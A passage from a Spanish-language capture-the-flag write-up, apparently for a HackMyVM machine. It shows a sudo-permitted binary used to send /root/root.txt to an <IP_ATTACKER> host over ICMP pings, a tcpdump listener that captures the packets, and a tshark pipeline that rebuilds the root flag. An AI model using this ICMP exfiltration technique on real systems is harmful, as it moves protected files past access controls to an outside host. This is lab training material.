 Vemos que esta funcionando de forma correcta, por lo que leeremos la `flag` de `root`.

> ESCUCHA ICMP HOST

```shell
sudo tcpdump -i <INTERFAZ_RED> icmp -w flagroot.pcap 
```

> ENVIO DE ARCHIVO VICTIMA

```shell
sudo /usr/local/sbin/sendfilebyping <IP_ATTACKER> /root/root.txt
```

Si volvemos a donde tenemos la escucha veremos que el archivo se ha generado de forma correcta:

```
flagroot.pcap
```

Ahora vamos a filtrar toda la informacion para verlo de forma clara:

```shell
tshark -r flagroot.pcap -Y "icmp" -T fields -e data.data | xxd -r -p | tr -d '\n' | sed 's/\(.\{79\}\)\(.\)/\2/g' | sed 's/:::/\n/g'
```

> root.txt

```
HMV{ICMPcanBeAbused}
```
